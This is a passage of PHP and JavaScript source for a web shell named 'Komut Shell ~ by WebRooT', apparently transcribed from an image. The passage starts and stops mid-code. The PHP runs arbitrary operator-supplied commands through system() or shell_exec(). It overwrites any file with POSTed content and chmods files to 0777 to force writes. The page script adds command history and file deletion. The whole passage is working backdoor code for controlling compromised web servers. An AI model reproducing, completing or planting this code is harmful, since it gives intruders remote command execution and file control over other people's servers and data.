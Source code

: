                        print $output . "<br>";
                    }
                } else {
                    if (function_exists(system)) {
                        system($cmd);
                    } else {
                        if (function_exists(shell_exec)) {
                            print shell_exec($cmd);
                        } else {
                            print "Sorry, none of the command functions works.";
                        }
                    }
                }
            }
        }
    } elseif (isset($_GET['savefile']) && !empty($_POST['filetosave']) && !empty($_POST['filecontent'])) {
        $file = $_POST['filetosave'];
        if (!is_writable($file)) {
            if (!chmod($file, 0777)) {
                die("Nope, can't chmod nor save :("); //In fact, nobody ever reads this message ^_^

            }
        }
        $fh = fopen($file, 'w');
        $dt = $_POST['filecontent'];
        fwrite($fh, $dt);
        fclose($fh);
    } else {
?>
<html>
<title>Komut Shell ~ <?php print getenv("HTTP_HOST"); ?> ~ by WebRooT</title>
<meta http-equiv="Content-Type" content="text/html; charset=windows-1254" />
<head>
<?php print $style; ?>
<SCRIPT TYPE="text/javascript">
function sf(){document.cmdform.command.focus();}
var outputcmd = "";
var cmdhistory = "";
function ClearScreen()
{
	outputcmd = "";
	document.getElementById('output').innerHTML = outputcmd;
}

function ClearHistory()
{
	cmdhistory = "";
	document.getElementById('history').innerHTML = cmdhistory;
}

function deletefile(file)
{
	deleteit = window.confirm("Are you sure you want to delete
"+file+"?");
	if(deleteit)
	{
		runcommand('deletefile ' + file,'GET');
	}
}

var http_request = false;
function makePOSTRequest(url, parameters) {
  http_request = false;
  if (window.XMLHttpRequest) {